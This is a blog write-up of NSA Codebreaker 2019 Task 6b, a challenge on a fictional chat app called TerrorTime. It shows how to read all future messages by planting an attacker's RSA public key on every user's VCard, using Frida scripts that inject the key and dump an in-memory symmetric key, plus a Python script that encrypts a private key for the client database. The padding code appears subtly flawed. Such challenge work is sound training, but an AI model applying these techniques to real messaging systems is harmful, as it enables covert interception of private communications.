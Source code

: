 ```yaml
---
layout: default
permalink: /CodeBreaker-2019-Task-6b/
title: NSA Codebreaker 2019, Task 6b
---
```


Task 6b requires you to determine a method to decrypt all future messages sent in TerrorTime. 

This is possible since a user's VCard can have an arbitrary number of public keys and each outgoing message is encrypted with all public keys. Cycling keys can help protect previous messages if a key is compromised in the future. TerrorTime's implication of this technique is very poor. It would have been better to limit the VCard to only having one public key. 

** It should be noted ** that if the public key is only updated for one user, the organization leader, it will render all future messages he sends unreadable by the recipient. As mentioned in task 6a, when a message is sent only the local public keys are used to encrypt the message body, but all public key fingerprints are added to the internal message structure. When TerrorTime decrypts the message the public key fingerprints are checked against all public key used to encrypt the message key. If there is a fingerprint in the internal message structure not used to encrypt the message key, then the message is reported as corrupted and dropped. The spoofed user's local copy would not contain our public key, resulting in the message key not being encrypted with this key and breaking future decryption of the message inside of the app. 

Uploading the key to every user's VCard side steps this problem. Now when a message is encrypted our public key is used to encrypt the message, since it is on the recipient's VCard. TerrorTime does not check which user the public key was from, but rather only if it was used. 

# Generating RSA Key #

I used openssl to generate a new RSA public and private key pair to upload to each user's VCard. 

{% highlight bash %}
openssl genpkey -algorithm rsa -out openssl_generated_pubkey.pem
openssl rsa -inform PEM -pubin -text -in openssl_generated_pubkey.pem
{% endhighlight %}

# Using Frida #

The below javascript will inject the public key stored in variable new_pub_key to the current user's VCard. It uses the functions defined in VCardHelper class to<br>
- log current VCard's public keys,<br>
- add new key, and<br>
- retrieves public keys to verified it was added.<br>

{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var my_class = Java.use("com.badguy.terrortime.VCardHelper");
        var PublicKey = Java.use("java.security.Key");
        var Set = Java.use("java.util.Set");
        var Base64 = Java.use("java.util.Base64");
        function get_pub_key(user) {  
                  try {
                  var key_set = Java.cast(my_class.getPublicKeys(user), Set);
                  var key_array = key_set.toArray();
                  console.log(user);
                  for (var i = 0; i < key_array.length; i++) {
                      var key = Java.cast(key_array[i], PublicKey);
                      var key_bytes;
                      var array = key.getEncoded();
                      var b64encoder = Base64.getEncoder();
                      key_bytes = b64encoder.encodeToString(array);
                      console.log("-----BEGIN PUBLIC KEY-----")
                      console.log(key_bytes);
                      console.log("-----END PUBLIC KEY-----")
                  }
                  } catch(error) {console.log("error: " + error.toString());}
            }
      var new_pub_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6xOaF/SVJiwEDCyHAZouu9wTYven46+o6vb9zNM5RgC2L3CkNKdhP0bDNrJbX9hz3BjwACiR4mYkLqbevjomX7ihD3CUtiNj0zXRDuXrrEFuT3dHURO65Ooyk08GS4cDiSpUejcmX4qeuBuefV08eTVSseLGLB8gLUI3IxZ11CKc7cgTCf763SicwcUEJSBV71IEysOKCCjsbqPAS0rRhgVaSIKs7uWqPUuSIIsIjnBi9/DT18OrAfQHyjW8j/I2mi9Mf6FhlhmpgL3L1W58X+LMHdQYDvoKXyPVhDnTInvCm7P7Xddms9qqCAQulxzlL/6HSC2x4c2Fyw9ZYDVytQIDAQAB\n-----END PUBLIC KEY-----";

       get_pub_key("brian--vhost-174@terrortime.app"); // to check
       console.log("---------------------------------------------------");
       my_class.savePublicKey(new_pub_key);
       get_pub_key("brian--vhost-174@terrortime.app"); // to check

});
{% endhighlight %}

# Using Legitimate Functionality #

When a user logs into TerrorTime, a request is made to the user's VCard which contains the user's public keys. The app will update the VCard with any missing public keys from the local database. One method to add a public key to each user's VCard is to update the database with a new public and private key and masquerade as each user.

The private key is stored encrypted in the client database. I used Frida to retrieve the client's symmetric key and then used python to encrypt the key. One interesting thing I discovered is that the object needs to be casted as the parent object if you want to call functions from the parent object. For an example, to call the function getEncoded on the object returned from the function generateSymmetricKey, it must be casted to Key even though the object is of the type SecertKey. I believe this is because the class Key defines the getEncoded function. 

Javascript injected into process to get client's symmetric key. 
{% highlight javascript %}
Java.perform(function x(){ //Silently fails without the sleep from the python code
    console.log("Inside java perform function");
        var my_class = Java.use("com.badguy.terrortime.Client");
        var SecurityKey = Java.use("java.security.Key"); 
        var Base64 = Java.use("java.util.Base64");
        Java.choose("com.badguy.terrortime.Client", {
            onMatch: function(instance) { 
                  try {
                  var client = (my_class, instance);
                  var symkey = Java.cast(client.generateSymmetricKey(), SecurityKey);
                  var array = symkey.getEncoded();
                  var b64encoder = Base64.getEncoder();
                  var key_bytes = b64encoder.encodeToString(array);
                  console.log("symetric key: " + key_bytes);
                  } catch(error) {console.log("error: " + error.toString());}
            }, onComplete: function() {} });

});
{% endhighlight %}

Python script to encrypt with the client's symmetric key. The resulting key can be added to the client database along with the matching private key. 

{% highlight python %}
from Crypto.Cipher import AES
from binascii import hexlify, unhexlify
from base64 import b64decode

with open("brian_key.pem") as fi:
    priv_key_pem = fi.read() # .split("\n")[1:-1]

priv_key = priv_key_pem # b64decode("".join(priv_key_pem))

pad_amount = (16 - len(priv_key)) % 16
priv_key += pad_amount * chr(pad_amount)
symkey = b64decode("KcnLeCD2MQzIkGRq7Xmf0kdHnhOAEpVVvk6/HoWEs+w=")
enc_key = AES.new(symkey, AES.MODE_ECB).encrypt(priv_key)

with open("enc_brian_key_pem", "w") as fo:
    fo.write(enc_key)
{% endhighlight %}


I can now decrypt all future messages sent through TerrorTime. 